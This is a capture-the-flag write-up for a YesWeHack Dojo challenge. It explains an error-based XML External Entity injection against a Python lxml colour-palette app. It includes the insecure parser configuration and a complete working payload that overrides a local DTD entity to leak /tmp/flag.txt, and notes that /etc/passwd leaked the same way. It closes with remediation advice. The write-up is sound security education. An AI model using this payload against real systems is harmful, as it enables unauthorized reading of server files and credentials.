 > This writeup was selected as one of the best for this challenge. [Read it on the YesWeHack website](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-42)

## Description
This challenge revolves around a Python web application that renders user-supplied XML data through a templated HTML interface. The application uses the `lxml` library to parse XML files and extract hexadecimal colour codes to populate a front-end colour palette. However, the XML parser is configured to allow external Document Type Definitions (DTDs) and resolve entities, which opens the door to an XML External Entity (XXE) injection vulnerability.

Due to insufficient input validation and insecure parser configurations, an attacker is able to inject arbitrary entity declarations, thereby allowing him to manipulate the server into disclosing files stored on it.

## Exploitation
To identify potential vulnerabilities within an application, analysing the source code is an effective approach as it reveals insecure coding practices, such as improper input validation or the misuse of certain libraries. In this scenario, we are presented with a web application that accepts a user input, which is then parsed by the program - potentially influencing the contents returned to the user.

### Code Analysis
The first step in performing our taint tracking is to examine how our input is being handled by the program. In this scenario, a Web Application Firewall URL-encodes the user input before it reaches the web server.

```python
data = unquote(USER_INPUT)

try:
    parsed_text, colors = promptFromXML(data)
except Exception as e:
    parsed_text = f"Error : {str(e)}"
    colors = []

print(template.render(output=parsed_text, colors=colors, image=None))
```

Our user input is first decoded using the `unquote()` function, returning to its original form (our raw input) before being passed to the `parse_palette()` function. The result of XML parsing, or any errors that occurs, is echoed back to the user in a templated HTML response. This hints that our payload could manipulate the contents of error messages, which often tend to be verbose.

```python
def parse_palette(xml_data):
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    tree = etree.parse(io.StringIO(xml_data), parser)
    root = tree.getroot()
    colors = set()

    # Only parsing hex color
    for elem in root.iter():
        if elem.text and re.match(r"^#(?:[0-9a-fA-F]{3,6})$", elem.text.strip()):
            colors.add(elem.text.strip().lower())

    return list(colors)
```

The `parse_palette()` function is where the bulk of the data processing lies at. There are a few key points that can be noted regarding the function's implementation:

- `load_dtd=True`: allows the XML parser to load external DTDs
- `resolve_entities=True`: enables the expansion of external entities
- There is no sanitisation of the `xml_data` parameter

In the setup code, we can observe that there is a DTD file located at `/tmp/xml/config.dtd`:

``` python
with open("xml/config.dtd", 'w') as f:
    f.write('''
<!ENTITY % dtd "<!ELEMENT config (#PCDATA)>">
%config_hex;
''')
```

Note the reference to an undefined entity `%config_hex`.

### Conclusions drawn from Code Analysis

From the configuration of `lxml.etree.XMLParser` in which both `load_dtd` and `resolve_entities` were set to `True`, we can deduce that the application will:

1. Load external DTDs from file paths
2. Expand nested parameter entities
3. Attempt to resolve file paths provided within entity values

From the DTD file stored at `/tmp/xml/config.dtd` which contains an undefined entity `%config_hex`, we can deduce the possibility of overriding this entity with arbitrary ones, which will be subsequently loaded by the parser. Based on this idea, we can slowly piece together a payload:

To begin with, we need to load the local DTD at `/tmp/xml/config.dtd`:

```xml
<!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
```

Next, we need to override `%config_hex`, which could have nested parameter entities that would be expanded via the parser's `resolve_entities=True` configuration. We need to include the following:

```xml
<!ENTITY % flag SYSTEM "file:///tmp/flag.txt">
```

This allows reads the contents of `/tmp/flag.txt` into the `%flag` entity.

```xml
<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///aaa/%flag;'>">
```

This creates a nested entity `%error` that references a non-existent file path (`aaa`) with the flag appended to it.

```xml
%eval;
```

This expands `%eval`, which causes the parser to resolve `%error`.

Finally, we just need the parser to load `/tmp/xml/config.dtd`, which will then encounter `%config_hex` (which we have overridden).

```xml
%local_dtd;
```

The parser will then read the contents of `/tmp/flag.txt` into `%flag`, and within `%error`, construct a path `file:///aaa/{FLAG_CONTENT}`. Since the filepath `aaa/{FLAG_CONTENT}` most probably does not exist, an error containing the resolved path will be thrown, and the resolved path will be returned as part of the error message (hopefully).

## Proof of Concept
Before we merge everything together, we need to note that some characters need to be replaced with their Unicode hex character codes to bypass parser restrictions and prevent premature expansions during entity parsing.

| Original | Encoded |
| --- | --- |
| `%` | `&#x25;` |
| `&` | `&#x26;` |
| `'` | `&#x27;` |

Double-encoding is also used to delay expansions. For example, `&#x26;#x25;` -> `&#x25;` -> `%`.

![Flag Revealed](./images/flag_revealed.png)

**PAYLOAD:**
```xml
<!DOCTYPE colors [
    <!ENTITY % local_dtd SYSTEM "file:///tmp/xml/config.dtd">
    <!ENTITY % config_hex '
        <!ENTITY &#x25; flag SYSTEM "file:///tmp/flag.txt">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///aaa/&#x25;flag;&#x27;>">&#x25;eval;'>
        %local_dtd;
]>
```

**FLAG: `FLAG{3rr0r_B4s3d_XX3_w1th_Sw4G}`**

## Risk
This vulnerability presents a serious risk as it allows an attacker to read files on the server, leading to a loss of confidentiality. For example, we are able to leak the contents of `/etc/passwd`:

![Leaked /etc/passwd Contents](./images/passwd_file_leaked.png)

## Remediation
To remediate this vulnerability, the configuration options of the `lxml.etree.XMLParser`, in particular, `load_dtd` and `resolve_entities` should be set to `False` to prevent the loading of DTDs and entity expansions.

Input validation and sanitisation should be incorporated before the user input is processed by the `parse_palette()` function to prevent blacklisted characters and keywords (e.g. `<!DOCTYPE`, `SYSTEM`) from being parsed.

Additionally, error messages returned to the user should avoid including the XML parser's error messages as these could unintentionally leak file paths, stack traces, and in this scenario, the contents of arbitrary files.

![Challenge Completed](./images/pwned.jpg)

![Best Writeup](./images/winner.jpg)